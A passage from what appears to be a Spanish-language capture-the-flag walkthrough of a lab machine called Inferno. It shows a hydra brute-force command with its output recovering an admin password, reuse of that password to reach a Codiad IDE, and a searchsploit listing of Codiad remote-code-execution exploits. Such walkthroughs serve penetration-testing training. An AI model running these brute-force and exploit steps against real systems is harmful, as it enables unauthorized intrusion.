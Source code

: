 Localizamos una posible ruta a la cual si accedemos nos presenta un panel de login. Al no tener credenciales porcedemos a usar `hydra` para aplicar fuerza bruta con el usuario `admin` y el diccionario `rockyou.txt`

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.149 http-get /inferno -t 60
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-25 12:20:24
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking http-get://192.168.1.149:80/inferno
[80][http-get] host: 192.168.1.149   login: admin   password: dante1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-25 12:20:54
```

Accedemos con las credenciales obtenidas y se nos presenta otro panel de login. Reutilizando contraseña obtenida anteriormente logramos acceder alo que parece ser un IDE [Codiad](https://github.com/Codiad/Codiad/wiki)

<img src="/assets/VH/Inferno-Mashashi/codiad.png">

Buscamos vulnerabilidades asociadas con la herramienta `searchsploit`

```bash
❯ searchsploit codiad
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.4.3 - Multiple Vulnerabilities                                                                                                                  | php/webapps/35585.txt
Codiad 2.5.3 - Local File Inclusion                                                                                                                      | php/webapps/36371.txt
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                                                                     | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                                                                 | multiple/webapps/49902.py
```